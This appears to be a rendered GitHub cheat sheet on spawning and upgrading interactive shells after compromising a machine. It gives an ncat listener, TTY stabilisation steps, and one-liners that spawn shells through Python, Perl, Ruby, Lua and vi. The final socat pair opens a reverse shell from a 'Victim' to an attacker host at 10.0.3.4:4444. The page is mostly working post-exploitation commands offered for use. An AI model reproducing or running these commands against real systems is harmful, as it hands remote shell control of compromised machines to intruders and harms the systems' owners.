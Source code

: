 ### Interactive Shell

#### MISC

`# RLWRAP allows you to interface local and remote keyboards # It gives access to keyboard arrows and history 
```
rlwrap ncat -lvp port
```

`# Another way to get a better shell # script is almost everytime present on the machine /usr/bin/script -qc /bin/bash /dev/null`

  

#### Fully Interactive TTY Shell

```bash
ctrl+z
echo $TERM && tput lines && tput cols

# for bash
stty raw -echo
fg

# for zsh
stty raw -echo; fg

reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

  

#### Spawning a shell

`# Using os.system echo os.system('/bin/bash')`

`# Using interactive sh /bin/sh -i`

`# Using Perl, Ruby or Lua perl -e 'exec "/bin/sh";' perl: exec "/bin/sh"; ruby: exec "/bin/sh"; lua: os.execute('/bin/bash')`

`# Using Vi :!bash :set shell=/bin/bash:shell`

``# WARNING # OhMyZSH might break this trick # so just launch /bin/bash before in your Kali to exit the /bin/zsh # Using socat # On Kali socat file:`tty`,raw,echo=0 tcp-listen:4444   # On Victim socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444``
